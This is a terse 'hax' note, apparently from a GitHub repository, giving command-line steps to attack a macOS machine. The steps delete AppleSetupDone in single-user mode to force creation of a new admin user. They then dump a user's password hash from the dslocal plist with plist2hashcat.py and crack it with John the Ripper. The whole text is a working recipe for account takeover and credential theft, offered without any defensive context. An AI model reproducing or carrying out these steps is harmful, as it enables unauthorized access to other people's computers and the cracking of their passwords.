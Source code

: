 # hax
view in raw to get commands right :)
# new admin user in single user mode
mount -uw /
rm /var/db/AppleSetupDone
reboot
# execute in terminal with root access
cd path/to/hashcat
sudo ./plist2hashcat.py /var/db/dslocal/nodes/default/users/*USER*.plist
save output to sha-512.txt in /path/to/JTR/run
cd path/to/JTR/run
./john --show --format=PBKDF2-HMAC-SHA512 sha-512.txt
